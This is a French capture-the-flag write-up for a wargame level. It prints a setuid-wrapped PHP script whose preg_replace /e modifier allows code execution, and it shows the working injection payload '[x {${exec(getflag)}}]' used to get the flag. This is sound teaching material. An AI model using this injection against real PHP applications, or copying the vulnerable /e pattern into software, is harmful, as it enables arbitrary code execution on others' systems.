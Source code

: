 # Level06

Premiere étape de recherche

	$ ls -la
	-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php

On trouve un script php et un binaire

	$ ./level06
	PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
	(Le binaire execute le script php et on dirait qu'il lui donne un arg)

	$ ./level06 coucou
	PHP Warning:  file_get_contents(coucou): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
	(Il doit prendre un fichier en argument)

Le binaire execute le script php

```php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	// Lit un fichier et met le contenu dans une chaine
	$a = file_get_contents($y);
	// remplace des patterns par d'autre via des REGEX
	// le modifier "e" est la faille. il execute l'arg subsitution avec la fonction eval() qui execute une chaine comme un script php
	// http://www.murraypicton.com/archive/using-phps-preg_replace-with-the-e-modifier.php
	// si on construit une string compatible avec le pattern "/(\[x (.*)\])/e" il va l'executer
	// il execute "y(\"\\2\")" et utilise le resultat pour remplacer
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
// affiche la chaine transformée
print $r;
?>
```

Le script contient une faille via le modifier "e" de la REGEX

Ce modifier execute l'arg subsitution avec la fonction eval() qui execute une chaine comme un script php

http://www.murraypicton.com/archive/using-phps-preg_replace-with-the-e-modifier.php

Example:

	preg_replace("/c/e", "exec('echo blabla')", "coucou")
	--->
	blablaoublablaou


On va devoir construire une chaine qui passe les REGEX du debut jusqu'au modifier e

	1er arg = "[x touslescaracteresici]"
	2eme arg = exec "y("(tous les caracteres ici)")"


	$ echo "[x exec(getflag)]" > /tmp/coucou

	$ ./level06 /tmp/coucou
	exec(getflag)

Il l'a affiché mais pas exec. Pour acceder a la valeur de la variable retournée par la fonction, nous devons utiliser la syntaxe {${function()}}
(https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex)

	$ echo '[x {${exec(getflag)}}]' > /tmp/coucou

	$ ./level06 /tmp/coucou
	PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXX in /home/user/level06/level06.php(4) : regexp code on line 1

